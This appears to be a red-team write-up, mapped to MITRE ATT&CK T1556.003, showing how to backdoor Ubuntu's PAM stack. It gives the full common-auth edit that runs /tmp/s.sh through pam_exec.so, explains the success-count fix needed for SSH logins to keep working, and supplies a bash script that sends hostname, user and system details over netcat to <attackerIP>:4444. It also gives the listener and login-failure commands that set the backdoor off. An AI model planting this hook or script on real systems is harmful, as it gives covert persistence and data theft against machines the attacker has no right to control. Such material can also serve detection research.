 ## [T1556.003-Modify Authentication Process: Pluggable Authentication Modules](https://attack.mitre.org/techniques/T1556/003/)  

### Background  
The pam_exec.so module in Linux Pluggable Authentication Modules (PAM) provides a flexible mechanism to execute custom scripts during various authentication stages. While commonly used for legitimate logging and running scripts for automation, this feature can be maliciously abused to trigger backdoor scripts in response to specific authentication events. In this scenario lets see how to trigger backdoor for SSH failure logins on Ubuntu 22.04. This technique can work in all other ubuntu environments as well. While Group-IB showcased this [technique](https://www.group-ib.com/blog/pluggable-authentication-module/) on Red Hat-based systems like Fedora and CentOS, they didn’t cover Debian-based environments. Here, I demonstrate how the same method works on Ubuntu or Debian-Based Systems. 
### Test Environment: 
**Victim:** Ubuntu 22.04    
**Attacker:** Ubuntu 24.04 (You can choose any OS vendor for this)  
Install netcat on Attacker system.  
**Note:** You can try with any Operating Systems.  
### Implementation:
#### Step1: Change the PAM config
At victim side, for getting persistence edit the file /etc/pam.d/common-auth file and add the following line below pam_unix.so line.  
``vim /etc/pam.d/common-auth``   
``auth optional pam_exec.so quiet setuid /tmp/s.sh``  
**Note1:** /tmp/s.sh file a backdoor script in this scenario. 
**Note2:** In PAM configuration, the **success=N** directive means: If the current module succeeds, skip the next N lines. So if the ssh authentication is successful the module has to skip the next  3 followed lines. Since the SSH authentication module currently uses success=2, and we are adding an additional line below it, we need to update this value to success=3 to ensure the correct number of lines are skipped on successful authentication.  
**Before:**  
![image](https://github.com/user-attachments/assets/da285bd7-1df4-40e2-9352-1e243c80b773)    

**After:**   
You can observe the modified success value to 3 in pam_unix.so line as shown.
![PAM-Exec-SSHFailure](https://github.com/user-attachments/assets/d3cf8ab4-b491-46fc-a378-865b55e71808)  
sudo systemctl restart ssh


#### Step2: Drop Backdoor script
At victim side.
**Backdoor script:**
```
#!/bin/bash

REMOTE_IP="<attackerIP>"
REMOTE_PORT="4444"
echo -e "Hostname: $(hostname)\nUser: $(whoami)\nUptime: $(uptime)\nOSDetails:$(uname -a)" | nc $REMOTE_IP $REMOTE_PORT
```  
``chmod 770 /tmp/s.sh``  
``chmod +x /tmp/s.sh``  

#### Step3: Listen for incoming connections and try ssh auth failures - Attacker Side:  
listen for incoming connections.  
```nc -lvp 4444```  
Try repeatedly logging into the victim machine’s SSH with invalid credentials to generate authentication failures that will trigger the backdoor as shown below screenshot.  
```ssh user@<victimIp>```    
Finally the output looks like below.  
![2025-06-03_21-09](https://github.com/user-attachments/assets/89aadc9b-46ca-4925-8996-c6305434d260)  
